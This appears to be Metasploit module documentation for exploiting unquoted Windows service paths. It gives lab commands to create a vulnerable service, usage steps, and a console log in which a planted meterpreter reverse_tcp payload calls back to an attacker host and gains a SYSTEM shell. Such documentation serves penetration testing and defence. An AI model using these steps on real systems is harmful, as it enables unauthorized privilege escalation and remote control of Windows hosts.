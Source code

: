 ## Vulnerable Application

Commonly known as Trusted Service Path, or Unquoted Service path, this exploits a behavior of windows service.
When a service calls an executable, a full path is given.  If the full path contains a space,
Windows will attempt to execute a file up to the space, with `.exe` appended.
If the executable isn't found, it keeps going until the full path or the next space (and repeat).

@sumitvgithub had an excellent write-up on this
[here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

As is documented in that write-up, if the executable is C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

Windows will attempt to run the following, in order.

  1.  C:\Program.exe
  2.  C:\Program Files\A.exe
  3.  C:\Program Files\A Subfolder\B.exe
  4.  C:\Program Files\A Subfolder\B Subfolder\C.exe
  5.  C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

To exploit this, we simply need to go in reverse order to see if we're able to write a payload to those locations.
In Win7+ the deeper folders are more likely to succeed based on default Windows permissions for users.

Then, a service restart is required.  Often a user won't be able to do this,
so the payload is left on disk as a reboot or service restart will trigger the payload to launch.

The service will fail to start as long as the payload remains on disk.  Manual cleanup of the payload
is required.

### Creating a Vulnerable Service

This is sourced from @sumitvgithub's write-up
[here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

With an administrator command prompt, execute the following:

```
sc create "Some Vulnerable Service" binpath= "C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe" Displayname= "Vuln Service DP" start= auto
mkdir "C:\Program Files\A Subfolder\B Subfolder\C Subfolder"
icacls "C:\Program Files\A Subfolder" /grant "BUILTIN\Users":W
```

This creates a vulnerable service, with `A Subfolder` being vulnerable to user writes.

## Verification Steps

  1. Start msfconsole
  2. Get a user shell
  3. Do: ```use exploits/windows/local/unquoted_service_path```
  4. Do: ```set session #```
  5. Do: ```run```
  6. You should either get a shell, or need to start a `multi/handler` and have the target restarted.

## Options

### QUICK

If only the first service should attempt to be exploited, or all of them (sequentially).  Default is `true`

## Scenarios

### Windows 10 (16299) with Service Listed Above


```
[*] Using exploit/windows/local/unquoted_service_path
resource (unquoted.rb)> setg verbose true
verbose => true
resource (unquoted.rb)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (unquoted.rb)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (unquoted.rb)> setg lport 4444
lport => 4444
resource (unquoted.rb)> set session 1
session => 1
msf5 exploit(windows/local/unquoted_service_path) > 
[*] Sending stage (180291 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49696) at 2020-04-10 14:41:32 -0400

msf5 exploit(windows/local/unquoted_service_path) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: MSEDGEWIN10\IEUser
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/local/unquoted_service_path) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Finding a vulnerable service...
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[+] Found vulnerable service: Some Vulnerable Service - C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe (LocalSystem)
[*] Attempting exploitation of Some Vulnerable Service
[*] Enumerating vulnerable paths
[*] Checking writability to: C:\Program Files\A Subfolder\B Subfolder
[-] Path not writable
[*] Checking writability to: C:\Program Files\A Subfolder
[+] Path is writable
[*] Placing C:\Program Files\A Subfolder\B.exe for Some Vulnerable Service
[*] Attempting to write 15872 bytes to C:\Program Files\A Subfolder\B.exe...
[+] Manual cleanup of C:\Program Files\A Subfolder\B.exe is required due to a potential reboot for exploitation.
[+] Successfully wrote payload
[*] Launching service Some Vulnerable Service...
[*] Manual cleanup of the payload file is required. Some Vulnerable Service will fail to start as long as the payload remains on disk.
[-] [Some Vulnerable Service] Unhandled error: Could not open service. OpenServiceA error: FormatMessage failed to retrieve the error.
[-] Unable to restart service.  System reboot or an admin restarting the service is required.  Payload left on disk!!!
[*] Exploit completed, but no session was created.
```

Manually start a handler, and restart the service (via GUI) to launch the exploit

```
msf5 exploit(windows/local/unquoted_service_path) > handler -p windows/meterpreter/reverse_tcp -H 1.1.1.1 -P 4444
[*] Payload handler running as background job 1.

[*] Started reverse TCP handler on 1.1.1.1:4444 
msf5 exploit(windows/local/unquoted_service_path) > [*] Sending stage (180291 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49708) at 2020-04-10 14:43:26 -0400

msf5 exploit(windows/local/unquoted_service_path) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

The most important part!!!

```
meterpreter > rm "C:\\Program Files\\A Subfolder\\B.exe"

```
